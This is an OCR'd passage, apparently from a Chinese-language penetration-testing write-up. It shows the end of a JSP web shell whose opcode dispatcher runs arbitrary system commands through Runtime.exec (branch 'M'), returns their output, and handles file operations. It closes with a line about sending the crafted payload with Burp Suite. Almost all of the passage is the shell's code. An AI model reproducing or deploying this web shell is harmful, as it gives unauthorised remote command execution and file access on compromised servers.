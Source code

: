                sb.append("1");  
           } else if (Z.equals("F")) {  
              FF(z1, response);  
           } else if (Z.equals("G")) {  
             GG(z1, z2);  
               sb.append("1");  
          } else if (Z.equals("H")) {  
              HH(z1, z2);  
              sb.append("1");  
           } else if (Z.equals("I")) {  
              II(z1, z2);  
               sb.append("1");  
           } else if (Z.equals("J")) {  
               JJ(z1);  
             sb.append("1");  
           } else if (Z.equals("K")) {  
               KK(z1, z2);  
               sb.append("1");  
          } else if (Z.equals("L")) {  
               LL(z1, z2);  
             sb.append("1");  
        } else if (Z.equals("M")) {  
               String[] c = { z1.substring(2), z1.substring(0, 2), z2 };  
               Process p = Runtime.getRuntime().exec(c);  
             MM(p.getInputStream(), sb);  
             MM(p.getErrorStream(), sb);  
          } else if (Z.equals("N")) {  
              NN(z1, sb);  
            } else if (Z.equals("O")) {  
                OO(z1, sb);  
           } else if (Z.equals("P")) {  
               PP(z1, sb);  
           } else if (Z.equals("Q")) {  
            QQ(cs, z1, z2, sb,z2.indexOf("-to:")!=-1?z2.substring(z2.indexOf("-to:")+4,z2.length()):s.replaceAll("\\\\", "/")+"images/");  
         }  
        } catch (Exception e) {  
     sb.append("ERROR" + ":// " + e.toString());  
      }  
    sb.append("|" + "<-");  
    out.print(sb.toString());  
    }  
    %>

我们还是利用burpsuite发送我们构造的payload：
